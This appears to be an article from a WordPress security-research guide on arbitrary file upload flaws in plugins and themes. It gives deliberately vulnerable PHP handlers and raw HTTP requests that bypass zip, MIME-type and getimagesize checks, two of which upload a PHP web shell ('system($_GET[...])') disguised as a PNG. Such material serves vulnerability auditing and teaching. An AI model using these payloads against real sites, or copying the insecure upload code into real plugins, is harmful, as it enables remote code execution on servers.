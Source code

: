 ```yaml
---
title: Arbitrary File Upload
contributors:
    - rafiem
---
```


## Introduction

This article covers cases of possible Arbitrary File Upload on WordPress. This includes improper file input handling inside of the plugin/theme which can be used to arbitrarily upload files including `.php` files to further achieve Remote Code Execution (RCE).

## Files Input

The most common way to trace if a plugin/theme has a file handling from user input is via the `$_FILES` PHP variable. 

Another way that is most of the time missed by hackers is via [`WP_REST_Request::get_file_params`](https://developer.wordpress.org/reference/classes/wp_rest_request/get_file_params/) function. This function retrieves multipart file parameters from the body of a custom REST API route registered by the plugin/theme.


## Useful Functions

Several functions could be useful to identify a possible Arbitrary File Upload vulnerability:

- PHP related
    - [`move_uploaded_file`](https://www.php.net/manual/en/function.move-uploaded-file.php)
    - [`file_put_contents`](https://www.php.net/manual/en/function.file-put-contents)
    - [`fwrite`](https://www.php.net/manual/en/function.fwrite)
    - [`fputs`](https://www.php.net/manual/en/function.fputs.php)
    - [`copy`](https://www.php.net/manual/en/function.copy.php)
    - [`fputcsv`](https://www.php.net/manual/en/function.fputcsv.php)
    - [`rename`](https://www.php.net/manual/en/function.rename.php)
- WordPress related
    - [`WP_Filesystem_Direct::put_contents`](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/put_contents/)
    - [`WP_Filesystem_Direct::move`](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/move/)
    - [`WP_Filesystem_Direct::copy`](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/copy/)

## Compressed File Extraction

One of the processes to upload a file is through an extraction of the compressed file. The compressed itself can vary from zip, gz, tar, rar, xz, 7z, etc. Most of the time, the developer forgets to implement a pre-check before the extraction process and it could lead to users uploading arbitrary files if the user can control the filename and the content of the extracted file.

Here are several functions that can be used to decompress a file:

- [`ZipArchive::extractTo`](https://www.php.net/manual/en/ziparchive.extractto.php)
- [`PharData::extractTo`](https://www.php.net/manual/en/phardata.extractto.php)
- [`unzip_file`](https://developer.wordpress.org/reference/functions/unzip_file/)

```php
add_action("wp_ajax_unpack_fonts", "unpack_fonts");

function unpack_fonts(){
    $file = $_FILES["file"];
    $ext = end(explode('.',$file_name));

    if($ext !== "zip"){
        die();
    }
    
    $file_path = WP_CONTENT_DIR . "/uploads/" . $file["name"];
    move_uploaded_file($file["tmp_name"], $file_path);

    $zip = new ZipArchive;
    $f = $zip->open($file_path);

    if($f){
        $zip->extractTo(WP_CONTENT_DIR + "/uploads/");
        $zip->close();
    }
}
``` 

To bypass the above check we need to prepare a valid zip file and add a malicious PHP file inside the zip file. Below is the example of a raw HTTP request to trigger the Arbitrary File Upload:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Connection: close
Cookie: <AUTHENTICATED_USER_COOKIE>
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary4Qx3GCzIwMf0iOPi
Content-Length: 352

------WebKitFormBoundary4Qx3GCzIwMf0iOPi
Content-Disposition: form-data; name="action"

unpack_fonts
------WebKitFormBoundary4Qx3GCzIwMf0iOPi
Content-Disposition: form-data; name="file"; filename="pwn.zip"
Content-Type: application/zip

<MALICIOUS_ZIP_METADATA>
------WebKitFormBoundary4Qx3GCzIwMf0iOPi--

```

## Bypass Techniques

Some of the conditions may make the file upload process secure, however, these specific conditions can still be bypassed to achieve an Arbitrary File Upload

### MIME Type Check

Developers often only check for the file's MIME content type before performing the upload process. This check alone is not enough to prevent Arbitrary File Upload since the attacker just needs to insert or append a malicious string like PHP code into a valid acceptable file MIME type.

Several functions could be used to check for a file's MIME type. Here are several functions that can be used to check for MIME type:

- [`mime_content_type`](https://www.php.net/manual/en/function.mime-content-type.php)
- [`exif_imagetype`](https://www.php.net/manual/en/function.exif-imagetype.php)
- [`finfo_file`](https://www.php.net/manual/en/function.finfo-file.php)

Example of vulnerable code:

```php
add_action("wp_ajax_nopriv_upload_image_check_mime", "upload_image_check_mime");

function upload_image_check_mime(){
    $file = $_FILES["file"];
    $file_type = mime_content_type($file["tmp_name"]);
    $file_path = WP_CONTENT_DIR . "/uploads/" . $file["name"];
    $allowed_mime_type = array("image/png", "image/jpeg");

    if(in_array($file_type, $allowed_mime_type)){
        move_uploaded_file($file["tmp_name"], $file_path);
        echo "file uploaded";
    }
    else{
        echo "file mime type not accepted";
    }
}
```

To bypass the above check we need to prepare a valid PNG file and append a malicious PHP code to the PNG file metadata. Below is the example of a raw HTTP request to trigger the Arbitrary File Upload:


```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary4Qx3GCzIwMf0iOPi
Content-Length: 352

------WebKitFormBoundary4Qx3GCzIwMf0iOPi
Content-Disposition: form-data; name="action"

upload_image_check_mime
------WebKitFormBoundary4Qx3GCzIwMf0iOPi
Content-Disposition: form-data; name="file"; filename="pwn.php"
Content-Type: image/png

<PNG_IMAGE_METADATA>
<?php echo system($_GET["id"]); ?>
------WebKitFormBoundary4Qx3GCzIwMf0iOPi--

```

### Image Related Check

Most of the file upload process is for an image type of file. Sometimes, developers only check for conditions that are related to an image file. One of the common functions to be used for image-related checks is [`getimagesize`](https://www.php.net/manual/en/function.getimagesize.php) function.

Example of vulnerable code:

```php
add_action("wp_ajax_nopriv_upload_image_getimagesize", "upload_image_getimagesize");

function upload_image_getimagesize(){
    $file = $_FILES["file"];
    $file_path = WP_CONTENT_DIR . "/uploads/" . $file["name"];
    $size = getimagesize($file["tmp_name"]);
    $fileContent = file_get_contents($_FILES['file']);

    if($size){
        file_put_contents($file_path, $fileContent);
        echo "image uploaded";
    }
    else{
        echo "invalid image size";
    }
}
```

To bypass the above check we need to prepare a valid image file and append a malicious PHP code to the image file metadata. Below is the example of a raw HTTP request to trigger the Arbitrary File Upload:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary4Qx3GCzIwMf0iOPi
Content-Length: 352

------WebKitFormBoundary4Qx3GCzIwMf0iOPi
Content-Disposition: form-data; name="action"

upload_image_getimagesize
------WebKitFormBoundary4Qx3GCzIwMf0iOPi
Content-Disposition: form-data; name="file"; filename="pwn.php"
Content-Type: image/png

<PNG_IMAGE_METADATA>
<?php echo system($_GET["id"]); ?>
------WebKitFormBoundary4Qx3GCzIwMf0iOPi--

```

## Article References


Below are some of the findings related to Arbitrary File Upload:

- [AI Engine Plugin Affected by Critical Vulnerability](https://patchstack.com/articles/ai-engine-plugin-affected-by-critical-vulnerability/)
- [Multiple Vulnerabilities Patched in Themify Ultra Theme](https://patchstack.com/articles/multiple-vulnerabilities-patched-in-themify-ultra-theme/)
- [Critical Vulnerability in Elementor Affecting 5+ Million Websites](https://patchstack.com/articles/critical-vulnerability-in-elementor-affecting-5-million-websites/)
- [Pre-Auth Arbitrary File Upload in User Submitted Posts Plugin](https://patchstack.com/articles/pre-auth-arbitrary-file-upload-in-user-submitted-posts-plugin/)
- [Critical Arbitrary File Upload Patched in Forminator Plugin](https://patchstack.com/articles/critical-arbitrary-file-upload-patched-in-forminator-plugin/)
- [Multiple High and Critical Vulnerabilities in Avada Theme and Plugin](https://patchstack.com/articles/multiple-high-and-critical-vulnerabilities-in-avada-theme-and-plugin/)
- [Critical Vulnerabilities Patched in Jupiter X Core Plugin](https://patchstack.com/articles/critical-vulnerabilities-patched-in-jupiter-x-core-plugin/#unauthenticated-arbitrary-file-upload)